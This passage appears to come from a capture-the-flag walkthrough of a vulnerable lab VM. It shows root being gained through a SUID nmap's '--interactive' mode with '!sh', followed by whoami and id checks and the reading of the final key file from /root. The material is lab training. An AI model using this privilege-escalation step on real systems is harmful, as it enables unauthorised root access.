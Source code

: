 ```bash
Welcome to Interactive Mode -- press h <enter> for help
```
start the interactive shell with `!sh`.
```bash
nmap> !sh
!sh
# 
```
Now let's see if we are root.
```bash
# whoami
whoami
root
```
We are root via `nmap --interactive`. Now let's capture the last flag this one should be in the root home directory.
```bash
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# 
```
Now let's capture all required information as Offensive Security want during the exam.
```bash
# whoami;id;hostname;ifconfig;cat key-3-of-3.txt
whoami;id;hostname;ifconfig;cat key-3-of-3.txt
root
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
linux
eth0      Link encap:Ethernet  HWaddr 08:00:27:af:bd:21  
          inet addr:10.0.2.23  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:feaf:bd21/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:638635 errors:106 dropped:0 overruns:0 frame:0
          TX packets:827065 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:213568255 (213.5 MB)  TX bytes:805152944 (805.1 MB)
          Interrupt:19 Base address:0xd020 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:59676 errors:0 dropped:0 overruns:0 frame:0
          TX packets:59676 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:45621645 (45.6 MB)  TX bytes:45621645 (45.6 MB)

04787ddef27c3dee1ee161b21670b4e4
```
